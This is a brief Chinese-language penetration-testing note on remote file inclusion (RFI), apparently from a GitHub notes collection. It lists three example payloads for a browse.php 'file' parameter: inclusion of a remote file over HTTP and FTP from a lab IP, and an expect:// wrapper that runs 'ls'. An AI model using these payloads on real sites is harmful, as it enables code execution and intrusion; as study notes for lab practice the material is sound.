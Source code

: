 # rfi

一般现有exp都会有告诉你，所以用处不是特别大，但还是说一下

```bash
browse.php?file=http://10.11.0.42/index.html
browse.php?file=ftp://10.11.0.42/index.html
browse.php?expect://ls
```
